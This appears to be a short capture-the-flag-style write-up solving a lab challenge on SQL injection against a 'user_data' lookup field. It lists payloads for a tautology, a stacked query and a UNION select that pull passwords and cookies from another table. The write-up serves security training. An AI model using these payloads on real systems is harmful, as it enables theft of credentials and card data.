



# Challenge name: Try It! Pulling data from other tables

### Challenge desciption:
The input field below is used to get data from a user by their last name.
The table is called 'user_data':
```sql
CREATE TABLE user_data (userid int not null,
                        first_name varchar(20),
                        last_name varchar(20),
                        cc_number varchar(30),
                        cc_type varchar(10),
                        cookie varchar(20),
                        login_count int);
```
Through experimentation you found that this field is susceptible to SQL injection. Now you want to use that knowledge to get the contents of another table.
The table you want to pull data from is:
```sql
CREATE TABLE user_system_data (userid int not null primary key,
			                   user_name varchar(12),
			                   password varchar(10),
			                   cookie varchar(30));
```
### My solution
- Try to use `' or 1=1 -- `

- Very easy! We have all data of table `user_data`, but this challenge need `password` of table `user_system_data`.
- We just add 1 query in this query `;select * from user_system_data -- `

- Or use `UNION`
`' union select userid,user_name,password,cookie,null,null,null -- `

- Copy password and type in password input and complete challenge.